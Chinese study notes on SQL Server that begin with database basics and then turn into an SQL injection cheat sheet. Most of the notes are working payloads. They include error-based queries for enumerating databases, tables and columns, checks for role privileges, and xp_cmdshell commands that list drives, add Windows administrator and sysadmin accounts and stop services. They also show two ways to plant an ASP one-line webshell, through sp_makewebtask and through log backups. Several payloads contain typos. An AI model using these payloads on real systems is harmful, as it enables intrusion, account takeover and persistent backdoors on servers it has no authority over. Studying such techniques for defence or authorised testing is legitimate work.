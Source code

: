 #### sqlserver数据库介绍及操作

默认端口1433；

创建一个数据库，默认创建在路径中web.mdf;

任务，分离，删除链接，然后把创建的文件在默认路径中删掉就可以了；



1. 基础的查询语句：增删改查

   ` select * from table`

2. 数据库权限

   sa、db、public权限

   sa权利很大，db相当于普通票哪个用户，public相当于windows的guest用户；

#### 连接调用sqlserver数据库

调用数据库的代码，一般写在配置文件里面config, conn；

```vbscript
<%
    set conn = server.createobject("adodb.connecton")
    conn.open "provider=sqloledb;source=local;uid=sa;pwd=***;database=database-name"
 %>
```

可能在的目录：==inc==/conn.asp，config.asp，web.config

#### sqlserver注入

判断是否有注入

```mssql
1. 判断是否有注入  (会有变化)
and 1=1
and 1=2
/
-0
/*判断注入的方法是一样的*/

2. 初步判断是否是mssql
and user>0

3. 判断数据库系统
and (select count(*) from sysobjects)>0    /*mssql的系统表*/
and (select count(*) from msysobjects)>0   /*access的系统表*/

4. 注入参数是字符
and 

10. 测试权限结构   返回正常的话，就是对应的权限
and 1=(select IS_SRVROLEMEMBER('sysadmin'));--
and 1=(select IS_SRROLEMEMEMBER('serveradmin'));--
and 1=(select IS_SRROLEMEMEMBER('setupadmin'));--
and 1=(select IS_SRROLEMEMEMBER('securityadmin'));--
and 1=(select IS_SRROLEMEMEMBER('diskadmin'));--
and 1=(select IS_SRROLEMEMEMBER('bulkadmin'));--
adn 1=(select IS_MEMBER('db_owner'));--

11. 添加mssql和系统账户
exec master.dbo.sp_addlogin username;--
exec master.dbo.sp_password null, username,password;--
exec master.dbo.sp_addsrvrolemember sysadmin username;--
exec master.dbo.xp_cmdshell username;--
.....

```

- 手工判断注入

  `http://testasp.vulnweb.com/showforum.asp?id=0 '` 

- 获取数据库信息

  `id=1 and 1=(select @@version)  # 因为后面的查询结果是字符类型，转换失败，就爆出错误了`

  `id=@@version   # 等价` 

- 获取当前数据库名称

  `id=1 and 1=(select db_name())  # 也是由于类型不匹配`

- 获取第一个用户数据库

  `and 1=(select top 1 name from master..sysdatabases where dbid>4)`

  *获取从上往下数的第一行的name属性*

  - 判断接下来的数据库:

  `and 1=(select top 1 name from master..sysdatabases where dbid>5)` or

  `and 1=(select top 1 name from master..sysdatabases where dbid>4 and name<>'web')`

  会爆出错误：将nvarchar值'bookmis'转换为int类型时失败

  - ==非常牛逼的一个方法==

  `and 1=(select name from master..sysdatabases for xml path) # 把所有的数据库名按照xml列出`

- 获取第一张表

  `?id=1 and 1=(select top 1 name from sysobjects where xtype='u') #原理就是mssql报错信息`

- 获取表readers的列

  `?id=1 and 1=(select top 1 name from syscolumns where id=(select id from sysobjects where name='readers'))`

- 获取表的数据

  `?id=1 and 1=(select top 1 Reader_id from readers)`

有过滤，如何绕过？

​	比如大小写转换，%0a、+、/**/代替空格； *+ 为什么可以代替空格？*


> 那如果前端做的比较好，不显示报错信息呢？
> syscolumns、sysdatabases 、sysobjects 具体代表了什么？
>  - sysdatabases和数据库信息有关，它的name表示所有的数据库，dbid列是他们的顺序，也是标识符
>  - sysobjects和数据库中的表的信息有关，name是表名，xtype='u'表示用户表，id是表的标识符
>  - syscolumns和表的列属性有关，name是列名，可以通过表的id来选择所属的表。


#### sqlserver另类玩法
#### 

- 利用mssql扩展存储注入攻击

  ```mssql
  1. 检测与恢复扩展存储
  /*判断xp_cmdhshell扩展存储是否存在*/
  and 1=(select name from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell')
  
  /*判断xp_regread扩展存储过程是否存在*/
  and 1=(select count(*) from master.dbo.sysobjects where name='xp_regread')
  
  /*恢复*/
  exec sp_configure 'show advanced options',1,reconfigure;exec sp_configure 'xp_cmdshell',1;reconfigure;
  exec sp_dropexetendedproc xp_cmdshell, 'xplog70.dll'
  
  2. sa权限下扩展存储攻击 利用方法
  /*安装完插件之后；利用xp_cmdshell扩展，执行任意命令*/
  /*查看C盘*/
  drop table black
  create table black(dire varchar(7996) NULL, id int not null identity(1,1))
  insert into black exec master..xp_cmdshell 'dir C:\' ;
  and 1=(select top 1 dire from black where id=1);
  
  /*新建windows用户*/
  exec master..xp_cmdshell 'net user test test /add'
  exec master..xp_cmdshell 'net localgroup administrators test /add'
  /*添加和删除一个SA权限的而用户test*/
  exec master.dbo.sp_addlogin test,password
  exec master.dbo.sap_addsrvrolemember test,sysadmin
  /*停掉或激活开个服务（need sa）*/
  exec master..xp_servicecontrol 'stop','schedule'
  exec master..xp_servicecontrol 'start','schedule'
  
  /*创建之后登陆，利用远程桌面，连接服务器（打开3389）*/
  
  /*开启远程数据库*/
  select * from OPENROWSET('SQLOLEDB','server=servername;uid=sa;pwd=_123', 
  'select * from table1')
  
  ```

  如果防火墙只允许我访问80，可以把80改成别的，但是会影响原来的呀；——端口转发or源控码

- 利用sp_makewebtask写入一句话木马

  要知道绝对路径，否则写不进去

  `;exec sp_makewebtask 'e:\www_iis\yjh.asp','select''%3C%25%65%76%61%6C%20%72%65%71%75%65%73%74%28%22%63%68%6F%70%70%65%72%22%29%25%3E'''--`

- 写入一句话木马

  找到web目录后，即可写入一句话木马(dbo权限)

  ```mssql
  ;alter database news set RECOVERY FULL 
  ;create table test(str image)-- 
  ;backup log news to disk='c:\test' with init-- 
  ;insert into test(str)values ('<%excute(request("cmd"))%>')-- 
  ;backup log news to disk='c:\inetpub\wwwroot\yjh.asp'-- 
  ;alter database news RECOVERY simple
  ```
   [扩展参考](https://www.cnblogs.com/shanmao/archive/2012/11/15/2770878.html)

> 端口转发
>
> 一句话木马能干嘛
>
> 一句话木马怎么写

#### sqlserver差异备份、完全备份、权限入侵

